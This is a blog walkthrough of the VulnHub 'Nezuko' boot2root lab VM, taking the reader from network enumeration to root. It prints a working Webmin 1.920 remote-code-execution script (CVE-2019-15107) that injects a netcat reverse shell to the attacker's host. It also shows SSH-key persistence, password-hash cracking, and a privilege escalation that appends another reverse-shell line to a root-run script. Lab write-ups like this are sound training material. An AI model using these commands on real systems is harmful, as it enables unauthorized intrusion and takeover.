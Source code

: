 ```yaml
---
layout: post
title: "VM Nezuko Boot2Root Writeup"
categories: jekyll
permalink : /others/vm_nezuko
---
```


Hi there. This is my boot2root writeup for a vm called "Nezuko". For those who didn't manage to play with it, download the [vm](https://www.vulnhub.com/entry/nezuko-1,352/) and come back when you have finished.

### About Nezuko VM

![nezukovm](/musubi/assets/vm_nezuko/nezukovm.png)

I would consider this as an easy to intermediate level machine. But, if you need some hints, do reach me on [Twitter](htttps://twitter.com/yunaranyancat)

## Walkthrough

### Enumeration

Let's assume that we put our attacking machine (Kali) and Nezuko VM inside the same subnet which is `10.10.10.0/24` .
Therefore, by running `netdiscover -i eth0 -r 10.10.10.0/24` , we will find out that Nezuko vm is located at `10.10.10.4`.

p/s : the Kali vm has an IP of `10.10.10.5` . This is useful for us to create a reverse shell later.

![netdiscover](/musubi/assets/vm_nezuko/netdiscover.png)

By running `nmap -sS -sC -sV -oA nezukocommon 10.10.10.4` , we will get the following output.

![nmapcommon](/musubi/assets/vm_nezuko/nmapcommon.png)

Now, let's go to the webpage of `10.10.10.4` .

![nezukowebpage](/musubi/assets/vm_nezuko/nezukowebpage.png)

Nothing interesting except for nezuko chan.. ಥ ⌣ ಥ

By going to `10.10.10.4/robots.txt` , we will find an encoded text there.

![robotswebpage](/musubi/assets/vm_nezuko/robotswebpage.png)

The text is encoded with base32. Using online decoder such as this [site](https://emn178.github.io/online-tools/base32_decode.html) , we will get below plaintext.

![base32_decoded](/musubi/assets/vm_nezuko/base32_decoded.png)

Since we got a hint from nezuko saying this is not the right port to enumerate. We will run an nmap scan again now to scan all ports.

Note : By default, nmap will only scan for common 1000 ports. You can check the specific ports that nmap scans using the default scan on this [site](https://nullsec.us/top-1-000-tcp-and-udp-ports-nmap-default/).

By running `nmap -sS -sC -sV -p- -oA nezukoallports 10.10.10.4` , we will get below output.

![nmapallports](/musubi/assets/vm_nezuko/nmapallports.png)

It seems that port `13337` is running a `webmin` service. This might be an entry point for us.

### Exploitation

The target is running `webmin 1.920` . After some searching for webmin vulnerabilities, we will find a remote code execution vulnerability related to this specific version of webmin.

- [https://www.exploit-db.com/exploits/47293](https://www.exploit-db.com/exploits/47293)

![testexploit](/musubi/assets/vm_nezuko/testexploit.png)

Another link will lead us to a Metasploit module. However, we will not be using Metasploit because it will ruin all of the fun.

- [https://www.exploit-db.com/exploits/47230](https://www.exploit-db.com/exploits/47230)

![metasploit](/musubi/assets/vm_nezuko/metasploit.png)

Copy the shell script (in the first link) to our Kali to test if the target is vulnerable to rce exploit or not.

![vulnerablecheck](/musubi/assets/vm_nezuko/vulnerablecheck.png)

So it seems that the target is vulnerable.

We will modify the test code so that we can get a shell from the machine.

Our final exploit code should look something like this.

{% highlight bash %}
#!/bin/sh
URI=$1;

echo -n "Exploit for RCE (CVE-2019-15107) on $URI: ";
curl -ks $URI'/password_change.cgi' -d 'user=wheel&pam=&expired=2&old=id|nc -e /bin/bash 10.10.10.5 1337 &new1=wheel&new2=wheel' -H 'Cookie: redirect=1; testing=1; sid=x; sessiontest=1;' -H "Content-Type: application/x-www-form-urlencoded" -H 'Referer: '$URI'/session_login.cgi' -X POST
{% endhighlight %}

Before running the exploit we should start our netcat listener on our Kali.

![listener_1337](/musubi/assets/vm_nezuko/listener_1337.png)

Then run the exploit code,
{% highlight bash %}
root@kali:~#sh exploit.sh https://10.10.10.4:13337
{% endhighlight %}

![nezuko_shell](/musubi/assets/vm_nezuko/nezuko_shell.png)

We got a shell as nezuko!

### (Optional) Upgrade to SSH session

We can obtain ssh session as nezuko by adding our public key to `/home/nezuko/.ssh/authorized_keys`.

First we need to generate our own private and public SSH key.

{% highlight bash %}
root@kali:~#ssh-keygen -t rsa
{% endhighlight %}

Save the key in our current working directory by putting a name when prompted for the filename, in this case, the filename will be `yunaranyancat`

Copy the content of `yunaranyancat.pub` to `/home/nezuko/.ssh/authorized_keys`

![ssh-keygen](/musubi/assets/vm_nezuko/ssh-keygen.png)

![copytoauthkeys](/musubi/assets/vm_nezuko/copytoauthkeys.png)

After that we can ssh as nezuko using following command

![sshprivate](/musubi/assets/vm_nezuko/sshprivate.png)

### Changing user to zenitsu

We find out that `/etc/passwd` is readable and furthermore, it reveals `zenitsu` password hash.

![etcpasswd](/musubi/assets/vm_nezuko/etcpasswd.png)

We can try to crack the hash using hashcat by typing following command.

![copytocrack](/musubi/assets/vm_nezuko/copytocrack.png)

![examplehash](/musubi/assets/vm_nezuko/examplehash.png)

And after waiting for a while, the hash has been cracked and stored inside file `cracked`.

![cracked](/musubi/assets/vm_nezuko/cracked.png)

Once we got the password, which is `meowmeow` , we can su as `zenitsu` user.

{% highlight bash %}
nezuko@ubuntu:~#su zenitsu
{% endhighlight %}

and when prompted with password, put `meowmeow` and then click enter.

### Privilege escalation

As `nezuko` user before, we found out that there is a folder named `from_zenitsu` in the home directory and now as `zenitsu`, we found a folder named `to_nezuko`. Upon inspecting both folder, we can say that these directories;

- from_zenitsu : contains message sent by zenitsu every 5 minutes (based on the name of the messages)

- to_nezuko : contains a bash script owned by zenitsu that will send a message to nezuko.

However, upon further inspection, we found out that the script is being run by `root` instead. That's why the messages sent to nezuko home directory are owned by `root`.

We can verify it by running
{% highlight bash %}
nezuko@ubuntu:~#ls -la /home/nezuko/from_zenitsu/*
{% endhighlight %}

This means that, we can escalate our current privileges to `root` privileges by modifying the content of bash.

Since the owner of the script is `zenitsu` , then it is possible to overwrite the script.

![cannot_change_bash](/musubi/assets/vm_nezuko/cannot_change_bash.png)

But, it seems that we obtained `permission denied` when trying to overwrite the content of the bash script.

### Exploiting file attributes

When running `lsattr` on the bash script, it showed that the file attribute of the bash script has been changed to `a`(append) mode only. This means we can only append the script but cannot overwrite it.

![lsattr](/musubi/assets/vm_nezuko/lsattr.png)

With a slight modification to our command, we managed to append our own command which will connect to our Kali.

{% highlight bash %}
zenitsu@ubuntu:~/to_nezuko$echo "nc -e /bin/bash 10.10.10.5 1234" >> send_message_to_nezuko.sh
{% endhighlight %}

Set up our listener to listen on port 1234

![listener_1234](/musubi/assets/vm_nezuko/listener_1234.png)

After waiting for couple of minutes for the script to be executed, we managed to get a root shell!

![root](/musubi/assets/vm_nezuko/root.png)

### Wrap up

Thank you for taking your time to read the writeup and I hope you enjoyed playing with my first vm. :>
